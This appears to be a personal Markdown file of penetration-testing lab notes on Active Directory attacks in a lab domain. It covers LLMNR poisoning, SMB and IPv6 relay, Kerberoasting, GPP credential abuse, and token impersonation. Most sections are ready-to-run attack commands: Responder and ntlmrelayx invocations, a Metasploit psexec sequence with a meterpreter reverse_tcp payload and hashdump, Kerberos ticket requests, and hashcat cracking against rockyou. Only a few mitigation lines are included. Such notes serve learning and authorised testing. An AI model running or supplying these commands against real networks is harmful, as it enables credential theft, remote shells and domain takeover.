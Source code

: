 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 Token Impersonation** \
**5 MS17-010** \
**6 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

**4. Token Impersonation:**
```
msfconsole use exploit windows/smb/psexec 
msfconsole set smbdomain carbon.local set smbpass Password!1 set smbuser e.triage set rhost 192.168.86.206 set target 2(Native Upload)
set payload /windows/x64/meterpreter/reverse_tcp set lhost eth0 run
```
```
`meterpreter> hashdump, getuid, sysinfo`
`meterpreter> load <tab> incognito`
`meterpreter> help - `
`meterpreter> list_tokens`
`meterpreter> impersonate_token CARBON\\e.triage`
`meterpreter> shell`
`C:\Windows\system32> whoami :: carbon\e.triage`
```

***if hashdump run now - will throw errors :: to fix "rev2self" see ![revert_2_self](Screenshots/rev2selfpng.png)***
***Token is there until computer is reboot***

**Mitigation strategy::** 
+ Limit User/Group token creation permissions
+ Account tiers - Domain admin's should only be logging into DC's
+ Local admin restriction

---

**5. Kerberoasting:** Goal:: Get TGS and decrypt server's account hash (tgs may be hint). See ![kerberoasting](Screenshots/kerberoasting.png)
  1. User -> DC  :: Request TGT. Provide NTLM hash
  2. DC -> User  :: Receive TGT enc w/ krbtgt hash
  3. User -> DC  :: Request TGS for Server (Presents TGT)
  4. DC -> User  :: Receive TGS ecn w/ server's account hash (TGS received)
  5. User -> App :: Present TGS for service enc w/ server's account
  6. App -> User :: Used when mutual Authentication is required
  7. App -> DC   :: PAC Validation Request Optional
  8. App -> DC   :: PAC Validation Response Optional

  
```
/opt/impacket/examples# GetUsersSPNs.py Carbon.local/e.triage:'Password!1' -dc-ip <ip-DC> -request -outputfile hashes.kerbroast
```

```
PS C:\Users\e.triage> klist get host/ETHYL <computer name>
#0>     Client: e.triage @ CARBON.LOCAL
        Server: krbtgt/CARBON.LOCAL @ CARBON.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 12/24/2021 13:17:39 (local)
        End Time:   12/24/2021 23:17:39 (local)
        Renew Time: 12/31/2021 13:16:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: Oxytocin-DC.Carbon.local
```

```

hashcat -m 13100 hashes.kerbroast /usr/share/wordlists/rockyou.txt -O #13100 is Kerberos TGS module
```

**6 GPP Attacks:**
  1. Group Policy Preferences allows admins to create policies w/ embedded creds
  2. creds encrypted and placed in a "cPassword"
  3. key accidentally released
  4. Patched in MS14-025 - doesnt prevent previous uses (Server 2012). 
  5. msf auxiliary (smb_enum_gpp) #to check for GPP vuln



---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
[GPP_extras] (https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage)